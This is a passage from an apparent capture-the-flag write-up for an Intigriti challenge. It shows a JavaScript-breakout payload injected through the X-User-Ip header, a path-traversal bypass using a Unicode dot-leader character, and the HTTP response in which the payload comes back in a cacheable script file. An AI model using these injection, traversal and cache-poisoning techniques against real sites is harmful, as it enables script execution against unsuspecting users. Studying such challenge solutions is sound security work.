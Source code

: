 ```js
test"}});
var document; 
function $() {function ready() {}; return {ready}};
My JS code here for doing some other stuff!!
$(document).ready(function(){
  const userDetails = {ip:"test`;
```

After successfully bypassing the traversal restriction, the response now included the ```Cache-Control``` header along with my injected payload, as shown below:
```
Request 

GET /view_protected_note.js?id=../73608-fc10-45a1-8598-/‥/api/track HTTP/2
Host: challenge-0325.intigriti.io
X-User-Ip: test"}}); var document; function $() {function ready() {}; return {ready}}; $(document).ready(function(){const userDetails = {ip:"test`;

Response 
HTTP/2 200 OK
Date: Fri, 04 Apr 2025 06:32:54 GMT
Content-Type: text/javascript
Content-Length: 597
Content-Security-Policy: frame-ancestors https://challenge-0325.intigriti.io; base-uri 'none';  object-src 'none'; frame-src 'none';
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer
Cache-Control: public, max-age=120, immutable
X-Middleware-Rewrite: /api/track?id=..%2F73608-fc10-45a1-8598-%2F%E2%80%A5%2Fapi%2Ftrack
Etag: "e8c1yopdb2gl"
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000; includeSubDomains


$(document).ready(function() {
    const userDetails = {
        ip: "test"}}); var document; function $() {function ready() {}; return {ready}}; $(document).ready(function(){const userDetails = {ip:"test`;",
        type: "client",
        timestamp: new Date().toISOString(),
        ipDetails: {}
    };
    window.ipAnalytics = {
        track: function() {
            return {
                ip: userDetails.ip,
                timestamp: new Date().toISOString(),
                type: userDetails.type,
                ipDetails: userDetails.ipDetails
            };
        }
    };
});
```
